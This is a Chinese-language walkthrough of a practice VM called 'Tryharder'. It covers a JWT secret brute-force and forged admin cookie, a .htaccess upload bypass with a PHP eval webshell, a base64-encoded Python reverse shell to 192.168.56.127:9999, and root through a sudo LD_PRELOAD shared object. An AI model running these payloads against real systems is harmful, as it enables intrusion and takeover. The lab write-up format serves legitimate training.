







# Tryharder

:::note

[Linux VM] [Tested on VirtualBox] created by || Sublarge

⏲️ Release Date // 2025-04-09

✔️ MD5 // a95f664b02775d44cf4a1f8bbbbad1ce

☠ Root // 3

💀 User // 6

📝 Notes //
Hello Hacker! Try Harder!

:::

## 靶机启动

靶机 IP

```plaintext
192.168.56.129
```

## 信息搜集

```bash
┌──(randark ㉿ kali)-[~]
└─$ sudo nmap --min-rate=2000 -A -p- 192.168.56.129
Nmap scan report for bogon (192.168.56.129)
Host is up (0.0013s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 93:a4:92:55:72:2b:9b:4a:52:66:5c:af:a9:83:3c:fd (RSA)
|   256 1e:a7:44:0b:2c:1b:0d:77:83:df:1d:9f:0e:30:08:4d (ECDSA)
|_  256 d0:fa:9d:76:77:42:6f:91:d3:bd:b5:44:72:a7:c9:71 (ED25519)
80/tcp open  http    Apache httpd 2.4.59 ((Debian))
|_http-title: \xE8\xA5\xBF\xE6\xBA\xAA\xE6\xB9\x96\xE7\xA7\x91\xE6\x8A\x80 - \xE4\xBC\x81\xE4\xB8\x9A\xE9\x97\xA8\xE6\x88\xB7\xE7\xBD\x91\xE7\xAB\x99
|_http-server-header: Apache/2.4.59 (Debian)
MAC Address: 08:00:27:E6:39:25 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Device type: general purpose|router
Running: Linux 4.X|5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 4.15 - 5.19, OpenWrt 21.02 (Linux 5.4), MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Service

尝试直接访问


在页面源码中，发现

```html
/* 调试信息：API 路径 /NzQyMjE= */
```

访问 `http://192.168.56.129/74221/` 看到


尝试目录爆破

```bash
┌──(randark ㉿ kali)-[~]
└─$ dirsearch -u http://192.168.56.129/74221/

Target: http://192.168.56.129/

[15:07:33] Starting: 74221/
[15:07:35] 403 -  279B  - /74221/.ht_wsr.txt
[15:07:35] 403 -  279B  - /74221/.htaccess.bak1
[15:07:35] 403 -  279B  - /74221/.htaccess.orig
[15:07:35] 403 -  279B  - /74221/.htaccess.sample
[15:07:35] 403 -  279B  - /74221/.htaccess.save
[15:07:35] 403 -  279B  - /74221/.htaccess_extra
[15:07:35] 403 -  279B  - /74221/.htaccess_orig
[15:07:35] 403 -  279B  - /74221/.htaccess_sc
[15:07:35] 403 -  279B  - /74221/.htaccessBAK
[15:07:35] 403 -  279B  - /74221/.htaccessOLD
[15:07:35] 403 -  279B  - /74221/.htaccessOLD2
[15:07:35] 403 -  279B  - /74221/.htm
[15:07:35] 403 -  279B  - /74221/.html
[15:07:35] 403 -  279B  - /74221/.htpasswd_test
[15:07:35] 403 -  279B  - /74221/.htpasswds
[15:07:35] 403 -  279B  - /74221/.httr-oauth
[15:07:36] 403 -  279B  - /74221/.php
[15:08:01] 302 -    0B  - /74221/dashboard.php  ->  index.php
[15:08:26] 200 -  456B  - /74221/uploads/
[15:08:26] 301 -  324B  - /74221/uploads  ->  http://192.168.56.129/74221/uploads/
```

尝试使用 `test:123456` 登录成功


分析 Cookie 部分，采用了 JWT





## JWT Brute

经过爆破，成功得到了 JWT secret 为 `jwtsecret123`



重签名，得到 `admin` 的 Cookie



成功拿到文件上传的权限

## File Upload

尝试直接上传 `webshell.php` 但是文件格式被拦截


尝试检查常见的文件上传绕过方式，发现可以上传 `.htaccess`


那么简单了，直接覆写 `.jpg` 文件格式的解析

```plaintext title=".htaccess"
AddType application/x-httpd-php .jpg
```

上传之后，上传一个 `webshell.jpg`

```php title="webshell.jpg"
<?php @eval($_POST['shell']) ?>
```


尝试使用蚁剑连接 `http://192.168.56.129/74221/uploads/123/webshell.jpg`



成功连接 webshell

## FLAG - USER

权限限制不严格，使用 webshell 即可读取到



```flag title="/home/pentester/user.txt"
Flag{c4f9375f9834b4e7f0a528cc65c055702bf5f24a}
```

## 提权至 xiix

先反弹 shell

```bash
> echo cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjE5Mi4xNjguNTYuMTI3Iiw5OTk5KSk7b3MuZHVwMihzLmZpbGVubygpLDApOyBvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO2ltcG9ydCBwdHk7IHB0eS5zcGF3bigiYmFzaCIpJw== | base64 -d | bash
```



即可得到回连的 shell

```bash
┌──(randark ㉿ kali)-[~]
└─$ pwncat-cs -lp 9999
[15:31:31] Welcome to pwncat 🐈!
[15:32:09] received connection from 192.168.56.129:37582
[15:32:10] 192.168.56.129:37582: registered new host w/ db
(local) pwncat$ back
(remote) www-data@Tryharder:/var/www/html/74221/uploads/123$ whoami
www-data
```

尝试自动化分析提权路径

```bash
(remote) www-data@Tryharder:/tmp$ ./linpeas.sh
......
╔══════════╣ Cleaned processes
╚ Check weird & unexpected proceses run by root: https://book.hacktricks.xyz/linux-hardening/privilege-escalation#processes
root         1  0.1  0.9 103840  9960 ?        Ss   03:05   0:02 /sbin/init
root       216  0.0  0.8  40488  8788 ?        Ss   03:05   0:01 /lib/systemd/systemd-journald
root       238  0.0  0.4  22060  4920 ?        Ss   03:05   0:00 /lib/systemd/systemd-udevd
root     14543  0.0  0.2  22060  2328 ?        S    03:34   0:00  _ /lib/systemd/systemd-udevd
systemd+   262  0.0  0.6  93080  6508 ?        Ssl  03:05   0:00 /lib/systemd/systemd-timesyncd
  └─(Caps) 0x0000000002000000=cap_sys_time
root       334  0.0  0.6  19304  6368 ?        Ss   03:05   0:00 /lib/systemd/systemd-logind
message+   335  0.0  0.4   8968  4348 ?        Ss   03:05   0:00 /usr/bin/dbus-daemon --system --address=systemd: --nofork --nopidfile --systemd-activation --syslog-only
  └─(Caps) 0x0000000020000000=cap_audit_write
root       336  0.0  0.3 225820  3800 ?        Ssl  03:05   0:00 /usr/sbin/rsyslogd -n -iNONE
root       338  0.0  0.3   8824  3116 ?        Ss   03:05   0:00 /usr/sbin/cron -f
root     12777  0.0  0.2   9796  2804 ?        S    03:06   0:00  _ /usr/sbin/CRON -f
xiix     12778  0.0  0.0   2384   764 ?        Ss   03:06   0:00      _ /bin/sh -c /srv/backdoor.py
xiix     12779  0.0  0.8  19260  8352 ?        S    03:06   0:00          _ python /srv/backdoor.py

╔══════════╣ Users with console
pentester:x:1000:1000:Itwasthebestoftimes!itwastheworstoftimes@itwastheageofwisdom#itwastheageoffoolishness$itwastheepochofbelief,itwastheepochofincredulity,&itwastheseasonofLight...:/home/pentester:/bin/bash
root:x:0:0:root:/root:/bin/bash
xiix:x:1001:1001:A Tale of Two Cities:/home/xiix:/bin/bash

╔══════════╣ Searching root files in home dirs (limit 30)
/home/
/home/pentester/.note
/home/pentester/.bash_history
/home/xiix/.bash_history
/root/
/var/www
/var/www/html
```

很明显，有一个计划任务在定期执行 `/srv/backdoor.py`

```bash
(remote) www-data@Tryharder:/tmp$ ls -lah /srv/backdoor.py
-rwx------ 1 xiix xiix 1012 Mar 23 23:42 /srv/backdoor.py
```

同时，发现了一份 note

```plaintext title="/home/pentester/.note"
Two cities clashed in tale: Smash Caesar, buddy, to pass.
```

以及在 `/etc/passwd` 中发现以下信息

```plaintext
pentester:x:1000:1000:Itwasthebestoftimes!itwastheworstoftimes@itwastheageofwisdom#itwastheageoffoolishness$itwastheepochofbelief,itwastheepochofincredulity,&itwastheseasonofLight...:/home/pentester:/bin/bash
xiix:x:1001:1001:A Tale of Two Cities:/home/xiix:/bin/bash
```

还有一份在 `/srv/...`

```plaintext
Iuwbtthfbetuoftimfs"iuwbsuhfxpsttoguinet@jtwbttieahfogwiseon#iuxatthfageofgpoljthoess%itwbsuiffqocipfbemieg-iuxbsuhffqpdhogjocredvljtz,'iuwasuhesfasooofLjgiu../
```

尝试直接用脚本进行解密

```python
a = "Itwasthebestoftimes!itwastheworstoftimes@itwastheageofwisdom#itwastheageoffoolishness$itwastheepochofbelief,itwastheepochofincredulity,&itwastheseasonofLight..."
b = "Iuwbtthfbetuoftimfs\"iuwbsuhfxpsttoguinet@jtwbttieahfogwiseon#iuxatthfageofgpoljthoess%itwbsuiffqocipfbemieg-iuxbsuhffqpdhogjocredvljtz,'iuwasuhesfasooofLjgiu../"

res = []

for i in range(len(a)):
    # print(ord(a[i]), ord(b[i]))
    # print(ord(a[i]) - ord(b[i]))
    res.append(str(ord(b[i]) - ord(a[i])))

res = "".join(res)

binary_int = int(res, 2)

byte_length = (binary_int.bit_length() + 7) // 8
binary_bytes = binary_int.to_bytes(byte_length, byteorder='big')

decoded_str = binary_bytes.decode('utf-8')

print(decoded_str)
# Y0U_5M4SH3D_17_8UDDY
```

同时，尝试探测这个 python 脚本在做什么

```bash
(remote) www-data@Tryharder:/tmp$ ss -lntup
Netid                   State                    Recv-Q                   Send-Q                                     Local Address:Port                                     Peer Address:Port
udp                     UNCONN                   0                        0                                                0.0.0.0:68                                            0.0.0.0:*
tcp                     LISTEN                   0                        128                                              0.0.0.0:22                                            0.0.0.0:*
tcp                     LISTEN                   1                        5                                              127.0.0.1:8989                                          0.0.0.0:*
tcp                     LISTEN                   0                        128                                                    *:80                                                  *:*
tcp                     LISTEN                   0                        128                                                 [::]:22                                               [::]:*

(remote) www-data@Tryharder:/tmp$ ps -A | grep python
12779 ?        00:00:00 python
14279 ?        00:00:00 python3
28321 ?        00:00:00 python3
```

尝试与这个 `8989` 端口进行通信

```bash
(remote) www-data@Tryharder:/tmp$ nc 127.0.0.1 8989
Enter password: Y0U_5M4SH3D_17_8UDDY
Access granted!
shell> whoami
xiix
```

尝试反弹 shell

```bash
┌──(randark ㉿ kali)-[~]
└─$ pwncat-cs -lp 9999
[17:18:03] Welcome to pwncat 🐈!                                                                                                                                                                 __main__.py:164
[17:18:14] received connection from 192.168.56.129:37612
[17:18:14] 0.0.0.0:9999: normalizing shell path
           192.168.56.129:37612: registered new host w/ db
(local) pwncat$ back
(remote) xiix@Tryharder:/home/xiix$ whoami
xiix
```

## 爆破打法

在用户目录下发现一个猜数游戏

```bash
(remote) xiix@Tryharder:/home/xiix$ ls -laih
total 44K
148005 drwxr-xr-x 3 xiix xiix 4.0K Mar 25 01:32 .
   193 drwxr-xr-x 4 root root 4.0K Mar 23 10:46 ..
131746 -rw------- 1 root root    0 Mar 25 07:20 .bash_history
148008 -rw-r--r-- 1 xiix xiix  220 Apr 18  2019 .bash_logout
140438 -rw-r--r-- 1 xiix xiix 3.5K Mar 23 12:05 .bashrc
131378 ---x------ 1 xiix xiix  18K Mar 25 01:32 guess_game
140446 drwxr-xr-x 3 xiix xiix 4.0K Mar 23 23:44 .local
148006 -rw-r--r-- 1 xiix xiix  807 Apr 18  2019 .profile
```

:::note

捷径是在 `/tmp` 目录中，可以通过 `pspy` 监控进程来发现

:::

直接开始爆破，成功拿到信息

```bash
(remote) xiix@Tryharder:/home/xiix$ for i in $(seq 1000);do echo 32 | ./guess_game ;done
......
===== 终极运气挑战 / Ultimate Luck Challenge ====
规则很简单： 我心里有个数字（0-99），你有一次机会猜。
I have a number (0-99), you get one guess.
猜对了，我就把属于你的东西给你；猜错了？嘿嘿，后果自负！
Guess right, I’ll give your reward; wrong? Hehe, face the consequences!
提示： 聪明人也许能找到捷径。
Hint: Smart ones might find a shortcut.
天哪！你居然猜对了！运气逆天啊！ / You got it! Amazing luck!
Pass: superxiix
```

并获取到 sudo 信息

```bash
(remote) xiix@Tryharder:/home/xiix$ sudo -l
[sudo] password for xiix:
Matching Defaults entries for xiix on tryharder:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+=LD_PRELOAD

User xiix may run the following commands on tryharder:
    (ALL : ALL) /bin/whoami
```

## 提权至 root

那么就简单了，使用 `env_keep+=LD_PRELOAD` 进行攻击

```bash
(remote) xiix@Tryharder:/home/xiix$ echo I2luY2x1ZGUgPHN0ZGlvLmg+CiNpbmNsdWRlIDxzdGRsaWIuaD4KCl9fYXR0cmlidXRlX18oKGNvbnN0cnVjdG9yKSkKdm9pZCBpbml0KCkKewogICAgcHV0cygiSGVsbG8gZHluYW1pYyBsaW5rYWdlIHdvcmxkISIpOwogICAgdW5zZXRlbnYoIkxEX1BSRUxPQUQiKTsKICAgIHN5c3RlbSgiL2Jpbi9iYXNoIik7Cn0K | base64 -d
#include <stdio.h>
#include <stdlib.h>

__attribute__((constructor))
void init()
{
    puts("Hello dynamic linkage world!");
    unsetenv("LD_PRELOAD");
    system("/bin/bash");
}
(remote) xiix@Tryharder:/home/xiix$ echo I2luY2x1ZGUgPHN0ZGlvLmg+CiNpbmNsdWRlIDxzdGRsaWIuaD4KCl9fYXR0cmlidXRlX18oKGNvbnN0cnVjdG9yKSkKdm9pZCBpbml0KCkKewogICAgcHV0cygiSGVsbG8gZHluYW1pYyBsaW5rYWdlIHdvcmxkISIpOwogICAgdW5zZXRlbnYoIkxEX1BSRUxPQUQiKTsKICAgIHN5c3RlbSgiL2Jpbi9iYXNoIik7Cn0K | base64 -d > inject.c
(remote) xiix@Tryharder:/home/xiix$ gcc -shared -fPIC -o inject.so inject.c
(remote) xiix@Tryharder:/home/xiix$ sudo LD_PRELOAD=/home/xiix/inject.so /usr/bin/whoami
Hello dynamic linkage world!
root@Tryharder:/home/xiix# whoami
root
```

## FLAG - ROOT

```flag title="/root/root.txt"
Flag{7ca62df5c884cd9a5e5e9602fe01b39f9ebd8c6f}
```

## Wrong way

是不是感觉哪里不对？不对就对了，步子迈大了

`Y0U_5M4SH3D_17_8UDDY` 也是用户 `pentester` 的密码

```bash
(remote) www-data@Tryharder:/tmp$ su pentester
Password:
pentester@Tryharder:/tmp$ whoami
pentester
```

并且其 sudo 信息为

```bash
pentester@Tryharder:/tmp$ sudo -l
Matching Defaults entries for pentester on tryharder:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User pentester may run the following commands on tryharder:
    (ALL : ALL) NOPASSWD: /usr/bin/find
```

但是实际上的 `/usr/bin/find` 源码为（磁盘数据恢复）

```c title="\home\pentester\1.c"
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define REAL_FIND "/usr/bin/f1nd"
#define ERROR_MSG "find: critical error - Segmentation fault (core dumped)\n"

int main(int argc, char *argv[]) {
    for (int i = 1; i < argc; i++) {
        if (strstr(argv[i], "exec") != NULL ||
            strstr(argv[i], "ok") != NULL ||
            strstr(argv[i], "print") != NULL ||
            strstr(argv[i], "fls") != NULL ||
            fprintf(stderr, ERROR_MSG);
            return 1;
        }
    }

    char *real_argv[argc + 1];
    real_argv[0] = REAL_FIND;
    for (int i = 1; i < argc; i++) {
        real_argv[i] = argv[i];
    }
    real_argv[argc] = NULL;

    execv(REAL_FIND, real_argv);
    perror("Execute Error!");
    return 1;
}
```

基本上没有可利用的点了，所以对于 `pentester --> xiix` 的提权路径，还是与 `/srv/backdoor.py` 的端口进行交互
